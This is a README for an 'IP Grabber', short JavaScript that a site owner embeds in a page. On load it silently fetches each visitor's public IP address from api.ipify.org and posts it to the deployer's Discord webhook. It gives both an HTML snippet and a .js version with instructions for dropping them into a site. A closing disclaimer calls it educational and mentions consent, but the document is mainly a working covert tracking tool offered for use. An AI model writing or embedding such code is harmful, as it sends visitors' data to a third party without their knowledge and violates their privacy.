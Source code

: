 <h1 align="center">IP Grabber</h1>

<p align="center">
  <strong>A simple script to grab the user's IP address and send it to a Discord webhook.</strong>
</p>


## Description

This script fetches the user's IP address using `https://api.ipify.org` and sends it to a specified Discord webhook.

## How it Works

The script leverages JavaScript's `fetch` API to dispatch a GET request to `https://api.ipify.org`, acquiring the user's IP address. Subsequently, it dispatches a POST request to a Discord webhook URL, carrying the acquired IP address as the payload. As a result, you'll receive a notification from the bot in your Discord server each time someone visits your website, containing the visitor's Public IP address. Notably, this script represents the most concise form possible.

## Usage

Simply include the script in your HTML file. Just make sure to replace **`YOUR_DISCORD_WEBHOOK`** with your actual Discord webhook URL.

```html
<script>
  fetch('https://api.ipify.org')
    .then(response => response.text())
    .then(ip => fetch('YOUR_DISCORD_WEBHOOK', {
        method: 'POST',
        headers: { 'Content-Type': 'application/json' },
        body: JSON.stringify({ content: ip })
    }));
</script>`
```
or the .js file:

```
fetch('https://api.ipify.org')
  .then(response => response.text())
  .then(ip => {
    fetch('YOUR_DISCORD_WEBHOOK', {
      method: 'POST',
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({ content: ip })
    });
  })
```

## Disclaimer

This script is intended for educational purposes only. Any use of this script to collect or share users' IP addresses without their consent may violate privacy laws and ethical principles. Ensure compliance with all relevant regulations and obtain proper authorization before deploying such functionality. Use at your own risk.

